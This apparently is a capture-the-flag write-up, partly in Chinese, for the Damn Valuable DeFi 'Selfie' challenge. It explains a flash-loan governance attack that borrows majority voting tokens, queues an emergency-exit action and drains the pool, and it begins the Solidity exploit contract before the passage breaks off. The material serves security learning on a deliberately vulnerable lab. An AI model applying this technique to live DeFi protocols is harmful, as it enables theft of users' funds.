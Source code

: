 # 9.02

# **Selfie**

desc

```markdown
# Selfie

A new lending pool has launched! It’s now offering flash loans of DVT tokens. It even includes a fancy governance mechanism to control it.

What could go wrong, right ?

You start with no DVT tokens in balance, and the pool has 1.5 million at risk.

Rescue all funds from the pool and deposit them into the designated recovery account.

```

**DamnValuableVotes.sol**

一个示范用的治理代币

```solidity
contract DamnValuableVotes is ERC20, ERC20Permit, ERC20Votes {
    constructor(uint256 supply) ERC20("DamnValuableVotes", "DVV") ERC20Permit("DamnValuableVotes") {
        _mint(msg.sender, supply);
    }

    function _update(address from, address to, uint256 amount) internal override(ERC20, ERC20Votes) {
        super._update(from, to, amount);
    }

    function nonces(address owner) public view virtual override(ERC20Permit, Nonces) returns (uint256) {
        return super.nonces(owner);
    }
}
```

利用思路就是在借出超过一半的代币，然后再Onflashloan()函数中将EmergencyExit(rec)列入queue，再之后execute这个action就可以一次性得到所有代币。

exp

```solidity
// SPDX-License-Identifier: MIT
pragma solidity =0.8.25;
import {Test, console} from "forge-std/Test.sol";
import {SimpleGovernance} from "../../src/selfie/SimpleGovernance.sol";
import {SelfiePool} from "../../src/selfie/SelfiePool.sol";
import {IERC20} from "@openzeppelin/contracts/interfaces/IERC20.sol";
import {IERC3156FlashBorrower} from "@openzeppelin/contracts/interfaces/IERC3156FlashBorrower.sol";
import {DamnValuableVotes} from "../../src/DamnValuableVotes.sol";
contract SelfieExploiter is IERC3156FlashBorrower{
    SelfiePool selfiePool;
    SimpleGovernance simpleGovernance;
    DamnValuableVotes damnValuableToken;
    uint actionId;
    bytes32 private constant CALLBACK_SUCCESS = keccak256("ERC3156FlashBorrower.onFlashLoan");
    constructor(
        address _selfiePool, 
        address _simpleGovernance,
```